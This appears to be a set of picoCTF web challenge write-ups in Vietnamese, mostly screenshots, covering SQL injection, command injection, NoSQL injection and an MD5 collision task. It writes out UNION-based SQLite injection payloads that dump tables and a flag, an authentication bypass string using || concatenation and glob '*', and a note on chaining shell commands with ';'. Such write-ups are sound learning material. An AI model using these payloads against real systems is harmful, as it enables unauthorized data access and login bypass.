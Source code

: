 # Pico

# 3v@l

![Screenshot 2025-05-06 145459](https://github.com/user-attachments/assets/7341be37-c7dd-452b-9bd5-c16d7c1f9255)

![Screenshot 2025-05-06 145355](https://github.com/user-attachments/assets/c7c3347d-3de3-472a-8d19-29883e1888e6)


# Trickster

![Screenshot 2025-05-06 155332](https://github.com/user-attachments/assets/b1b381bd-837e-408d-be81-cd3efdeac7fe)

![Screenshot 2025-05-06 155403](https://github.com/user-attachments/assets/6f13e065-7c1f-4f66-ab63-f8b5fc0fa6da)

![Screenshot 2025-05-06 155256](https://github.com/user-attachments/assets/ac5c313c-f361-458a-8539-4f0531317528)

![Screenshot 2025-05-06 155535](https://github.com/user-attachments/assets/cf092a89-0610-4e25-b710-7f2a8bd808de)

![Screenshot 2025-05-06 155628](https://github.com/user-attachments/assets/7bc6fb7c-7383-4ff6-a2ee-710ed70c4044)

![Screenshot 2025-05-06 155652](https://github.com/user-attachments/assets/51c486c3-f0db-4f08-b895-2663c972f65a)

![Screenshot 2025-05-06 160930](https://github.com/user-attachments/assets/5728cb41-4208-4af7-8109-5a9f1a6f889b)


# No Sql Injection
![Screenshot 2025-05-06 164913](https://github.com/user-attachments/assets/4b93f124-856c-4681-9027-c002a5ca2cfd)
Base64


# SOAP
![image](https://github.com/user-attachments/assets/66b72268-993f-4abe-a155-b48ce205c653)

![image](https://github.com/user-attachments/assets/e85f7fff-fa60-434e-bf56-02d3efab8184)


# SQLI

![image](https://github.com/user-attachments/assets/85cd66b8-317f-450f-8e67-07690551feda)

Lấy các bảng bằng payload như sau
>a' union select 1,name,3 from sqlite_master where type='table'-- -

![image](https://github.com/user-attachments/assets/f0cc536a-7494-4c2b-99e5-4c918f7ac6ef)

Kiểm tra bảng more_table

>a' union select 1,sql,3 from sqlite_master where name='more_table'-- -

KIểm tra cột flag trong bảng more_table

>a' union select flag,2,3 from more_table-- -

![image](https://github.com/user-attachments/assets/90e55f04-5245-4a7c-a5bf-c5ca3ee1a075)

# MatchTheRegex

![image](https://github.com/user-attachments/assets/c7b34f81-2f2c-437a-b108-c16e5f416f6b)
.*? bắt tất cả các kí tự bất kỳ, số lượng ít nhất cả thể, nghĩa là chỉ lấy } đầu tiên bắt gặp

Nếu không có ? sau * thì nó sẽ khớp tới } cuối cùng trong chuỗi lớn

![image](https://github.com/user-attachments/assets/d3835e3f-9f22-4148-95cf-005ace686b62)
![Screenshot 2025-05-06 183102](https://github.com/user-attachments/assets/6961aae8-79a0-4916-b4e1-49a36da9fb96)

# Caas
![image](https://github.com/user-attachments/assets/746e5afd-8d24-4158-85f6-27ad42af2db4)

>os.system("cowsay " + user_input)

trong shell dấu ; cho phép thực thi nhiều lệnh liên tiếp

![image](https://github.com/user-attachments/assets/f7c67758-e2ff-49d4-a113-9260cd3756d4)
![image](https://github.com/user-attachments/assets/4db39461-ec20-4caa-babf-ed59fb379acf)



# Web Gauntlet 2
![Screenshot 2025-05-07 122359](https://github.com/user-attachments/assets/eaa96d1c-8151-43bd-b10b-7fd44dad9305)

![image](https://github.com/user-attachments/assets/7f39cc63-2344-4762-810b-f24cf18d9deb)

Username là admin nhưng admin đã bị chặn =))), Trong Sqlite || là toán tử để nối chuỗi
>username: adm'||'in
>password: ' glob '*
SELECT username, password FROM users WHERE username='adm'||'in' AND password='' glob '*'

Vậy tại sao có thể bypass được password, '' là 1 chuỗi rỗng glob sẽ so sánh với '\*' nếu khớp trả về true mà '*' khớp với bất kì chuỗi nào => trả về true

![Screenshot 2025-05-07 123050](https://github.com/user-attachments/assets/98af7f57-76ce-450e-a32f-f8957c526564)
![image](https://github.com/user-attachments/assets/596a372d-822f-4294-a861-af9f9301c260)

# It is my Birthday
Gửi 2 file pdf có hàm băm giống nhau để lấy flag
https://www.mscs.dal.ca/~selinger/md5collision/ tải về 2 file hello.exe và erase.exe và đổi lại .pdf

![Screenshot 2025-05-07 143003](https://github.com/user-attachments/assets/7f556d34-6530-493d-ba94-ff9da58cc125)
![Screenshot 2025-05-07 142953](https://github.com/user-attachments/assets/0eae98ab-c92a-4f4c-878c-dc089825568c)
























